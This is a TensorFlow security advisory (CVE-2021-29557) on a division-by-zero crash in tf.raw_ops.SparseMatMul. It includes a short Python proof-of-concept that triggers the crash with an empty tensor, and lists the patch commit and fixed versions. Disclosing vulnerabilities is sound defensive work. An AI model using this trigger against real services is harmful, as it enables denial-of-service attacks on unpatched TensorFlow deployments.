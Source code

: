 ## TFSA-2021-044: Division by 0 in `SparseMatMul`

### CVE Number
CVE-2021-29557

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.SparseMatMul`:

```python
import tensorflow as tf

a = tf.constant([100.0, 100.0, 100.0, 100.0], shape=[2, 2], dtype=tf.float32)
b = tf.constant([], shape=[0, 2], dtype=tf.float32)

tf.raw_ops.SparseMatMul(
    a=a, b=b, transpose_a=True, transpose_b=True,
    a_is_sparse=True, b_is_sparse=True)
```

The division by 0 occurs deep in Eigen code because the `b` tensor is empty.

### Patches
We have patched the issue in GitHub commit
[7f283ff806b2031f407db64c4d3edcda8fb9f9f5](https://github.com/galeone/tensorflow/commit/7f283ff806b2031f407db64c4d3edcda8fb9f9f5).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
